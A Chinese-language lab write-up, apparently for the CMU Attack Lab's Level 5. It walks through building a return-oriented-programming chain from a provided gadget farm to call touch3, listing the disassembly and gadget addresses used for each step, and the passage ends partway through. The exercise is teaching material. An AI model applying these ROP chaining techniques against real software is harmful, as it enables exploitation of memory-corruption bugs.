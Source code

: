 ### Level 5

同样的，我们依然是先找出所需要进行的操作，再进行拼凑。

要复现Level 3 的操作，重点是定位字符串存储的位置。由于字符串的存放位置取决于我们前面的操作的数量，在这里用硬编码并不是一个好的选择，我们可以转换一下思路，利用`lea`指令，使用寄存器和偏移量来进行定位。

结合farm的现有指令，我们初步的设想是：

1. 先将`%rsp`地址存入`%rdi`，偏移量存入`%rsi`，先将计算后的地址保存在`%rax`中，再将`%rax`转移到`%rdi`中。这是源于farm中的代码：

   ```assembly
   00000000004019d6 <add_xy>:
     4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
     4019da:	c3                   	retq  
   ```

2. 计算偏移量，存入字符

3. 调用touch3

第一步无疑是最为繁琐的：

- `%rsp` => `%rax` => `%rdi`

  ```assembly
  0000000000401a03 <addval_190>:
    401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
    401a09:	c3                   	retq 
  
  00000000004019c3 <setval_426>:
    4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
    4019c9:	c3 
  ```

  可截取出`48 89 e0`和`48 89 c7`，对应地址为`401a06`和`4019c5`

- 偏移量（暂定为x） => `%rax`

  ```assembly
  00000000004019a7 <addval_219>:
    4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
    4019ad:	c3  
  ```

  截取`58 90 c3`为`popq %rax,ret`，地址为`4019ab`

  接下来的8字节存放我们的偏移量，被pop进入`%rax`

- `%eax` => `%edx` => `%ecx` => `%esi`

  ~~为什么要这么复杂，因为gadget很难截取啊qwq~~

  ```assembly
  0000000000401a40 <addval_487>:
    401a40:	8d 87 89 c2 84 c0    	lea    -0x3f7b3d77(%rdi),%eax
    401a46:	c3
    
  0000000000401a33 <getval_159>:
    401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
    401a38:	c3 
  
  0000000000401a25 <addval_187>:
    401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
    401a2b:	c3  
  ```
